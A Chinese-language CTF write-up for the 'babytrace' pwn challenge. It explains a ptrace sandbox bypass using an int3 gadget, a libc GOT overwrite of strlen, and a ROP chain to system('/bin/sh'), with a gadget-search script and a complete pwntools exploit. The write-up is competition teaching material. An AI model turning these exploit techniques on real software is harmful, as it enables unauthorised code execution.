 # babytrace

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.5|

## 解题思路

### 绕过ptrace的监控

程序使用ptrace来监控syscall，按照`ptrace(PTRACE_SYSCALL, ...)`在文档中所言，
会在系统调用进入和退出时分别唤醒tracer。如果没有任何异常的话，我们就只能按照要求，
只能执行`read, write, newfstat, exit, exit_group`这么几个系统调用。

> [!NOTE]
> 我一开始不知道ptrace syscall在进入和退出时都会通知tracer，以为有一半的系统调用没有限制，
> 导致我一直在尝试让我想做的事落在没有限制的哪一半，还是对ptrace的机制不够熟悉啊。

我们需要的，就是需要通过什么办法，唤醒tracer，使调试关系错乱，进入syscall的时候没检查，
退出syscall的时候有检查，这样就拦不住任何东西了。接下来就是一个关键的指令出场了：`int3`。
这个指令能够触发系统中断表中的第3项，唤醒tracer，使tracee陷入调试状态，
就好像ptrace syscall执行了一样，从而骗过父进程，以为进入系统调用，实则并没有。

那么怎么找这样的gadget呢？ropper和ROPgadget都找不到，于是我写了这么一段代码，
手动寻找`int3` gadget。

```python
#!/bin/python
from pwn import *
libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')

int3s = list(libc.search(b'\xcc', executable=True))
for idx, addr in enumerate(int3s):
    disas = libc.disasm(addr, 30)
    if 'ret' not in disas:
        continue
    retoff = disas.find('ret')
    badoff = disas.find('(bad)')
    callof = disas.find('call')
    if badoff != -1 and badoff < retoff or callof != -1 and callof < retoff:
        continue
    print(f"{idx}th gadget")
    print(disas)
    pause()
```

经过仔细的挑选后，第726个gadget是最好的选择：它只是触发了`int3`而几乎没有任何副影响。

![int3](assets/int3_gadget.png)

### 构造rop链

找到gadget后，就是考虑如何拿到flag了。题目给了两次任意读的机会和一次任意写的机会，
看了[官方wp](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)后，觉得官方解法还是很妙的。

只有两次机会读，泄露stack和libc是最合适的，因此最好能直接控制执行流到libc上。
否则就要爆破栈或者PIE了。2.35的libc的GOT表还是可以写的，因此可以借助任意写，
劫持`libc.got['strlen']`，通过将栈抬高然后返回，就可以执行我们输入的ROP链，大概是这样：

![stack](assets/stack.png)

这样就可以实现任意写后`puts -> +stack -> rop`。最后构造rop链加上int3，拿shell。

> [!TIP]
> 这道题不能使用`execve`，因为执行的shell启动后仍然处于被调试状态，
> 各种syscall会在返回时被赋值为`-1`，从而被认定为失败，导致开不成shell。
> 反倒是`system`可以，因为会先fork一次，而题目没开`PTRACE_O_TRACEFORK`，
> 因而fork后执行syscall不受限制。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './babytrace'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'tb setter')
    else:
        t = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')

    def setval(buf: bytes, idx: int, val: int):
        t.sendlineafter(b'choose', b'1')
        t.sendafter(b'recv', buf)
        t.sendlineafter(b'which', str(idx).encode())
        t.sendlineafter(b'set', str(val).encode())

    def getval(idx: int) -> int:
        t.sendlineafter(b'choose', b'2')
        t.sendlineafter(b'which', str(idx).encode())
        t.recvuntil(b'=')
        return int(t.recvline(), 10)

    libc_base = getval(-2) - libc.symbols['_IO_2_1_stderr_']
    success(GOLD_TEXT(f"Leak libc_base: {libc_base:#x}"))
    libc.address = libc_base
    stack_base = getval(-4) - 0x20
    success(GOLD_TEXT(f'Leak stack_base: {stack_base:#x}'))

    gadgets = ROP(libc)
    int3 = libc_base + 0xf6d43      # int3; nop; ret;
    jmp2buf = libc_base + 0x114b5c  # add rsp, 0x68; ret;
    chain = flat(int3,
                 gadgets.rdi.address, next(libc.search(b'/bin/sh')),
                 gadgets.ret.address, libc.symbols['system'],
                 gadgets.rdi.address, 0, libc.symbols['_exit'])
    offset = (libc.got['strlen'] - stack_base) // 8
    setval(flat({ 0: chain, 0x100: b'flag\0' }, filler=b'\0'), offset, jmp2buf)

    t.clean()
    t.interactive()
    t.close()
```

## 参考

1. [第八届西湖论剑·中国杭州网络安全技能大赛初赛官方Write Up（下）](https://mp.weixin.qq.com/s/gXYLwdup6HYd_rETUSb9aA)
